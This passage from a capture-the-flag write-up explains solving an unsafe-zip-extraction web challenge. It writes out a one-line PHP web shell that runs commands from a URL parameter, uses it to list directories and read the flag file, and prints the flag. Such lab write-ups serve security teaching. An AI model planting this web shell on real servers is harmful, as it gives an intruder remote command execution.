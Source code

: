 ![](images/Pasted%20image%2020220619001827.png)

> Note this portion below, I forgot to document down but, basically it tries to enumerate the location of the flag file. Before reading it.

Simple one-liner webshell from [here](https://github.com/JohnTroony/php-webshells). Credits to [JohnTroony](https://github.com/JohnTroony).

So simply, `echo "<?php echo passthru($_GET['cmd']); ?>" > test.php`
Then using the php web shell, we can run commands  below to find the flag
`ls ../`
`ls ../../`
`ls ../../../`
`cat /flag_022dc5a58d33.txt` *This is because the path of `../../../` is `/`*
### Flag
```
STANDCON22{uns4f3_z!p_3xtr4c7!0n_!5_4_r34l_d4ng3r}
```

# Misc
## Atlan Safe P1
![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg)
![score](https://img.shields.io/badge/score-300-blue.svg)
![solves](https://img.shields.io/badge/solves-1-brightgreen.svg)
